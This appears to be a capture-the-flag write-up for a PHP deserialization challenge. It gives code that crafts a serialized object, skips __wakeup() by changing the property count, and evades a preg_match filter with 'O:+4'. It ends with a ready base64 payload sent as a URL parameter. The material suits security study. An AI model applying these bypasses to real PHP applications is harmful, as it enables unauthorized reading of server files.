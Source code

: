 # Web_php_unserialize

![Screenshot from 2021-07-24 23-30-57](https://user-images.githubusercontent.com/87865134/126874978-4c16dc54-e4bb-4771-ae28-7d471f8ab6ff.png)

- **Hint:** flag in file fl4g.php
- **Workflow:**
  -  get value of `$_GET['var']`
  -  `base64_decode()`
  -  filter by `preg_match()`
  -  unserialize object

- **Payload need:**
  - `base64_encode()` 
  - bypass filter
  - bypass unserialize
  
1. **Bypass unserialize**
  - Create object serialize:
  ```php
  $a = new Demo("fl4g.php");
  $ser = serialize($a);
  echo $ser;
  //result: O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";} 
  ```
  - Bypass `__wakeup()`:
  ```php
  $ser = str_replace(':1:', ':2:', $ser);
  //O:4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}
  ```
2. **Bypass filter `preg_match()`**
  ```php
  $ser = str_replace('O:4', 'O:+4', $ser);
  //O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}
  ```
3. **Endcode base64**  
  ```php
  echo base64_encode($ser)
  ```

4. **Get payload:** `TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==` 
5. **Submit payload with URL query parameter**

![Screenshot from 2021-07-24 23-42-14](https://user-images.githubusercontent.com/87865134/126875292-0f129544-1c46-4fd4-824e-b0bb1975676f.png)

### - Description:
> **category**: Unsecure Deserialization
